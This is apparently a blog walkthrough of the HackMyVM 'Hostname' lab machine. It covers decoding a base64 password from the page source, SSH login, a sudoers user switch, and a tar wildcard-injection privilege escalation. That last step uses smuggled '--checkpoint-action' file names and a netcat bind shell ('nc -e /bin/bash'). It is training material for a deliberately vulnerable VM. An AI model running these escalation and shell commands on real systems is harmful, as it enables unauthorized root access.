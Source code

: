```yaml
---
title: "Hostname - Avijneyam"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Hostname
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Hostname - Avijneyam
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|Hostname|
|Author:|[avijneyam](https://hackmyvm.eu/profile/?user=avijneyam)|
|Release date:|2022-05-04|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Hostname)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|Web-tools|

# 01. Entry
In the source code, you will find this:
{: .text-justify}
<code>
<script crossorigin="<span style="background-color: yellow;">S3VuZ19GdV9QNG5kYQ==</span>" src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
</code>

Decode it:
{: .text-justify}
```bash
echo -n 'S3VuZ19GdV9QNG5kYQ==' | base64 -d  #Secret Word
```
Use the **HackBar v2** plugin for Firefox and You got a password for SSH.
{: .text-justify}
![HackBar v2](/assets/images/hacking/2024/02/01.png)
# 02. SSH
Log in to the console as user **po**.
{: .text-justify}
```bash
export IP=172.16.1.240
ssh po@$IP 
```
## 02 User oogway
```bash
cat /etc/sudoers.d/po
```
```
po HackMyVM = (oogway) NOPASSWD: /bin/bash
```
```bash
sudo -u oogway -h HackMyVM bash
```
```bash
cat /etc/crontab
```
![crontab](/assets/images/hacking/2024/02/02.png)
# user root
```bash
cd /opt/secret/
touch -- --checkpoint=1
touch -- "--checkpoint-action=exec=sh exploit"
echo "nc -e /bin/bash -lvp 1234" > exploit
```
Wait a minute.
{: .text-justify}
```bash
nc localhost 1234
```